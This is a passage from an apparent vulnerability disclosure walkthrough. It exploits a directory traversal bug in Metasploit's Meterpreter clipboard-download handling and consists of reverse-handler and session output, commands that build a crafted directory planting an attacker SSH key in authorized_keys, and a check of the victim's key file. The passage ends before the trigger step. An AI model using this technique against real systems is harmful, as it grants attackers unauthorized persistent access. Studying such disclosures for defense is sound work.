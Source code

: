 ```text
[*] Started reverse TCP handler on 172.18.0.5:4444
[*] Starting the payload handler...
```

Run the stageless Meterpreter payload on a remote machine to initiate a
session:

```text
[*] Meterpreter session 1 opened (172.18.0.5:4444 -> 172.17.24.85:50469) at 2017-01-03 22:36:54 +1000
```

6\. Create a malicious directory for download

We know that the patched Meterpreter will inform Metasploit that the file
`C:/doot/doot/..` has been copied to the clipboard.

Metasploit will then attempt to download the file `C:/doot/doot/..` (i.e. the
directory `C:/doot/`) to `$DESTINATIONDIR/..` which will trigger the directory
traversal vulnerability.

Create a directory layout as follows:

```text
C:\
|
|-- doot\
   |
   |-- doot\
   |
   |-- .ssh\
      |
      |-- authorized_keys
```

```text
C:\Users\Justin>mkdir \doot

C:\Users\Justin>mkdir \doot\doot

C:\Users\Justin>mkdir \doot\.ssh

C:\Users\Justin>echo An evil SSH public key >> \doot\.ssh\authorized_keys
```

7\. Trigger the bug

Before triggering the bug, note that `authorized_keys` on the victim's machine
contains an innocent SSH public key:

```text
msf exploit(handler) > cat /home/justin/.ssh/authorized_keys
[*] exec: cat /home/justin/.ssh/authorized_keys

Just an innocent SSH public key
```
